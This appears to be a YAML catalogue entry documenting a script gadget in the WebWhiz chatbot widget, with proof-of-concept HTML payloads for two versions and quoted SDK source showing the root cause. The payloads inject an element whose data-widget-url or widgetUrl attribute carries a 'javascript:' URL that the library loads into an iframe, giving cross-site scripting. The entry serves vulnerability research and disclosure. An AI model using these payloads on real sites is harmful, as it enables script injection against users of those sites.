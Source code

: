 ```yaml
---
description: WebWhiz allows you to create an AI chatbot that knows everything about your product and can instantly respond to your customer's queries.
github: webwhiz-ai/webwhiz
gadgets:
  Latest:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - id-attr
      - data-attr
      - before-lib-load
    pocs:
      - description: The [WebWhiz](https://github.com/webwhiz-ai/webwhiz) library allows to load a widget `<iframe>` with a controlled `src` using the `data-widget-url` attribute.
        code: |
          <!-- user input -->
          <x id="__webwhizSdk__" data-widget-url="javascript:alert()//"></x>

          <!-- after version 1.0.0, WebWhiz must be installed using npm install -->
        preview: false
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/webwhiz-ai/webwhiz/blob/2.0.0-beta.5/widget/webwhiz-sdk.js#L267">https://github.com/webwhiz-ai/webwhiz/blob/2.0.0-beta.5/widget/webwhiz-sdk.js#L267</a>

      ```javascript
      function __WEBWHIZ__getWidgetURL() {
          const scriptEl = document.getElementById("__webwhizSdk__");
          const baseURL = scriptEl.getAttribute('widgetUrl') || scriptEl.getAttribute('data-widget-url');
          return baseURL || 'https://widget.webwhiz.ai/';
      }
      ```

      Source: <a target="_blank" href="https://github.com/webwhiz-ai/webwhiz/blob/2.0.0-beta.5/widget/webwhiz-sdk.js#L152">https://github.com/webwhiz-ai/webwhiz/blob/2.0.0-beta.5/widget/webwhiz-sdk.js#L152</a>

      ```javascript
      var __WEBWHIZ__URL = __WEBWHIZ__getWidgetURL();

      // [...]

      ifrm.setAttribute("src", __WEBWHIZ__URL + '?kbId=' + kbId +'&baseUrl=' + baseUrl);
      ```
  1.0.0:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - id-attr
      - custom-attr
      - before-lib-load
    pocs:
      - description: The [WebWhiz](https://github.com/webwhiz-ai/webwhiz) library was allowing to load a widget `<iframe>` with a controlled `src` using the `widgetUrl` attribute.
        code: |
          <!-- user input -->
          <x id="__webwhizSdk__" widgetUrl="javascript:alert(document.domain)//"></x>

          <script src="https://www.unpkg.com/webwhiz@1.0.0/dist/sdk.js"></script>
    more-info: |
      **Root Cause**

      ```javascript
      var e=function(){let e=document.getElementById("__webwhizSdk__").getAttribute("widgetUrl");return e||"https://widget.webwhiz.ai/"}();

      // [...]

      i=document.createElement("iframe");

      // [...]

      i.setAttribute("src",e+"?kbId="+a+"&baseUrl="+s)})
      ```
---
```

